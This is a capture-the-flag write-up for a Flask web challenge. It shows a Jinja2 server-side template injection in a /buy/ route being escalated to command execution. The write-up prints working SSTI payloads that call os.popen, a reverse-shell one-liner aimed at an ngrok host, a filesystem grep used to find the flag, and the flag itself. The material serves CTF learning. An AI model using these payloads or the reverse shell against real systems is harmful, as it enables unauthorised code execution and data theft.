





# FlagAuction

# Description

```
Yay !!! The Flag is on sale !!!! But are you okay with paying the "Gold Price" or will you pay the "Iron Price" ?

https://web.ctf.devclub.in/web/4/
```

# Observation

It presented us with this:



On clicking any of the link, it appended the product name to `/buy/<:product_name>` route. I opened up my burp to play around with these requests.

Consider me biased, but this application running in Flask (python) pushed me to try SSTI, as it's quite a common vulnerability to be found in applications which use jinja2 as their default templating engine.



We can see that, we've got successful SSTI, as our payload is being processed by the server. Let's refer to the [ocean of payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) for further escalation.

Tired of burp, huh?? Let me introduce my another favourite REST API client, **Thunder Client**. It's a light VSCode extension, so that I won't have to switch windows/tabs while playing around with requests.

# Exploitation

Now, we'll try to escalate our SSTI to RCE, which is generally trivial to see, yet exciting to feel!!

Payload: 
```
http://web.ctf.devclub.in/web/4/buy/{{cycler.__init__.__globals__.os.popen('ls -al').read()}}
```



At this point, my first approach was to start a netcat listener in my local machine, and tunnel the remote connection using TCP sockets to escalate my privileges. 



I tried gaining reverse shell using this payload `sh -i >& /dev/tcp/6.tcp.ngrok.io/18540 0>&1`
, but seemed like the outgoing connections(egress) were restricted or the firewall must be blocking it. 

# Final payload

Now, I thought of grepping the whole file system for the keyword `CTF`, but then the request timed out, so I listed the name of directories in root and partitioned the process of grepping. Finally I got success in the `/srv` directory, which gave out the flag.

```
http://web.ctf.devclub.in/web/4/buy/{{cycler.__init__.__globals__.os.popen('find /srv -iname "*" -type f -print0 | xargs -0 grep -H "CTF"').read()}}
```



This was a again a medium level chall with high points, finding the flag location was quite frustrating, but eventually we got the flag, so the challenge was nice! xD

Flag: ```CTF{jinja_1s_qu1t3_vuln3rabl3}```